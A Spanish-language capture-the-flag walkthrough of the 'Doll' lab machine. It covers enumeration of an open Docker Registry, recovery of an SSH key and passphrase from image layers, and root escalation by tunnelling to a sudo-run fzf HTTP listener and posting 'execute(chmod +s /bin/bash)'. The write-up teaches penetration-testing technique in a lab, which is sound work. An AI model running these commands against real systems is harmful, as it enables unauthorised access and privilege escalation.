


```php 
##########################################################################################################
#
# CTF a la Máquina Doll
#
# DATE: 06/Agosto/2023
#
# Máquina de @sml
# Me he apoyado en los writeups que ya había, pero he querido subir este porque creo que la parte
# de la tunelización de la conexión, para mi gusto, podía estar "oscura" para otros compañeros
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $sudo arp-scan -I enp0s3 192.168.0.0/24 -> 192.168.0.104
```
# Escaneo y Enumeración

## Veo que puertos tiene abiertos,

```php 
nmap -sVC -T5 -n -p- 192.168.0.104
```
* Obtengo los siguientes puertos abiertos, 22 SSH y 1007 http

```php 
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d732ac404ba84166d3d811496ceded4b (RSA)
|   256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_  256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* Comienzo con una enumeración normal

```php
gobuster dir -u "http://192.168.0.104:1007/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,json -t 200 --no-error
```

* Y encuentro:

```php
===============================================================
2023/08/04 23:14:49 Starting gobuster in directory enumeration mode
===============================================================
/v2                   (Status: 301) [Size: 39] [--> /v2/]
```

* Ahí hay *algo* de JSON pero como no lo entiendo bien, busco por internet lo de `Docker Registry` y encuentro una url interesante [https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry]

* Esto se cumple exactemente

```php
If you access / nothing is returned in the response
If you access /v2/ then {} is returned
If you access /v2/_catalog you may obtain:
{"repositories":["alpine","ubuntu"]}
{"errors":[{"code":"UNAUTHORIZED",
  "message":"authentication required",
  "detail":[{
    "Type":"registry",
    "Class":"",
    "Name":"catalog",
    "Action":"*"}]}]}
```

* Compruebo

```php
curl -s http://192.168.0.104:1007/v2/_catalog
{"repositories":["dolly"]}
```
* Obtengo las etiquetas `tags` del repositorio

```php
curl -s http://192.168.0.104:1007/v2/dolly/tags/list
{"name":"dolly","tags":["latest"]}
```
* Obteniendo el `manifests`

```php
curl -s http://192.168.0.104:1007/v2/dolly/manifests/latest
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"10ddd4608cdfd81cd95111ecfa37499635f430b614fa326a6526eef17a215f06\",\"container_config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2023-04-25T08:58:11.460540528Z\",\"docker_version\":\"23.0.4\",\"id\":\"89cefe32583c18fc5d6e6a5ffc138147094daac30a593800fe5b6615f2d34fd6\",\"os\":\"linux\",\"parent\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"parent\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.348438709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:9a4f77dfaba7fd2aa78186e4ef0e7486ad55101cefc1fabbc1b385601bb38920 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "MY76:IHED:2H4M:GQUR:BID2:2QJ6:R7KS:SY54:TBKV:EPVH:7NNE:VD6Q",
               "kty": "EC",
               "x": "bLZDA8BjLdZc9JpK5m-Fnt4HipXopiSEuQDd1Pbvlr0",
               "y": "EHlBtheDmCMTjpDJF6hvVfgtkRd-m57lO9nrfjRlBoU"
            },
            "alg": "ES256"
         },
         "signature": "v3BIws6lnRh-UZx2AWmogZvJdc_RRbS3r5UqOJRAyO6paDLgTE3UN3_FYBF_fDmYEL1LP9mW6ShXuOsrxiiHEQ",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjI4MjksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMy0wOC0wNFQyMTozNTowOFoifQ"
      }
   ]
}
```
* Vemos entre todo ese código `passwd=devilcollectsit`, quizás luego me sirva. Sigo con las instrucciones de la web y comienzo a bajar los blobs

```php
curl http://192.168.0.104:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob1.tar
... [los 4]
```

# Acceso

* Descomprimo el tar `tar -xf blob1.tar` y obtengo una estructura en donde puedo tener una `id_rsa`
> Solo uno tiene información interesante

```php
80-Doll/home/bela/.ssh
```
* Lo preparo y accedo

```php
chmod 600 id_rsa
ssh -i id_rsa bela@192.168.0.104
```

* Pide la *passphrase* pero tengo una candidata: `devilcollectsit` 😃 y funciona. Capturo bandera

```php
juHD----------
```
  

# Elevación a Root

* Ejecuto un `sudo -l`  y obtengo

```php
User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```
* Es un fuzzer de ficheros [https://github.com/junegunn/fzf]. Si me situo en el raíz y ejecuto `fzf`, primero me hará un reconocimiento de todos los ficheros. Desde ahí puedo pedir que me busque algún fichero y lo hará muy rápido. Marcándome la ruta. En este caso lo puedo ejecutar como `root` para ganar acceso, de alguna manera, y utilizando un parámetro que escucha en un puerto, el 1337. Sin embargo, este puerto NO está abierto en la máquina a nivel de sistema, por lo que no es accesible desde fuera.
* Como usuario *bela*, no puedo listar el contenido, ni leer por supuesto ningún fichero, del directorio `/root`. Sin embargo, con *fzf*, si que puedo buscar y listar dentro de su directorio porque lo puedo ejecutar como *root*

```php
sudo /usr/bin/fzf --listen\=1337
```


>Ahí está la bandera, si me diese el programa `fzf` la opción de ejecutar comandos en su interfaz, podría lanzar un `cat` y problema resuelto.

* Luego el *truco* debe estar en el parámetro `--listen`. En este manual [https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_] viene la descripción

```php

--listen[=HTTP_PORT]
Start HTTP server on the given port. It allows external processes to send actions to perform via POST method.
If the port number is omitted or given as 0, fzf will choose the port automatically and export it as FZF_PORT environment
variable to the child processes started via execute and execute-silent actions.
e.g. # Start HTTP server on port 6266
fzf --listen 6266

# Send action to the server curl -X POST localhost:6266 -d 'reload(seq 100)+change-prompt(hundred> )'
```
> Si tuviese abierto el puerto al exterior, podría conectarme directamente al puerto y en vez de reload
> puedo mandar un `execute` e intentar ejecutar algún comando.
> Puede ser por ejemplo un `cat /root/root.txt` o un `chmod +s /bin/bash` 😈

* NOTA: Al ejecutar el chmod +s (como root), le estoy asignando un permiso especial de **SUID** y significa que cualquier usuario que ejecute ese comando, lo ejecutará con los privilegios del que asignó ese permiso, o sea, tendre una bash con privilegios de `root`

* Para solucionar el problema de accesibilidad a ese puerto que no está abierto en la máquina de la víctima, lo tunelizo a traves de SSH.

```php
# máquina de ataque
ssh -i id_rsa bela@192.168.0.104 -L 1337:127.0.0.1:1337
```
* Ejecuto como `root` el comando

```php
bela@doll:~$ sudo /usr/bin/fzf --listen\=1337
```
* Ahora ya desde una consola nueva, en mi máquina de ataque, puedo lanzar la consulta de curl, al puerto ese en localhost, porque está redirigido

```php
curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```
>Otra opción sería ejecutar un `cat /root/root.txt`. Con esto conseguiríamos la bandera pero no la elevación a *root* 

* Compruebo en la máquina víctima que se ha asignado el permiso de **SUID**



* Lanzo una bash, que se ejecutar como antes dije con privilegios del que la modificó con ese permiso, o sea `root`
```php
-bash-5.1$ bash -p
bash-5.1# whoami
root
```
* Capturo bandera

```console
xwHT----------
```
